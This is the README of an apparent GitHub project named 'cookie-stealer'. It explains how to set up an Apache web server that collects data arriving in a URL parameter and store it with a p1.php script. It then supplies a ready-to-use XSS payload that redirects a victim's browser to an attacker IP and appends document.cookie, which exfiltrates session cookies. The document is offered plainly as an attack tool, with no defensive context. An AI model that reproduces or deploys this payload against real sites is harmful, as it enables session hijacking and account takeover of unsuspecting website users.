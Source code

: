 # cookie-stealer
Cookie Stealer in some languages

## usage
#### step1 - start web server on your own web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ```/var/www/html/''' directory

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in cookie file.
example of link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal cookies of your victim:
```
<script>window.location="http://192.168.1.135/php-cookie-stealer/p1.php?txt="+document.cookie</script>
```

### p1.php
p1.php is basic version of cookie stealer that recieve and store just value of txt parameter.
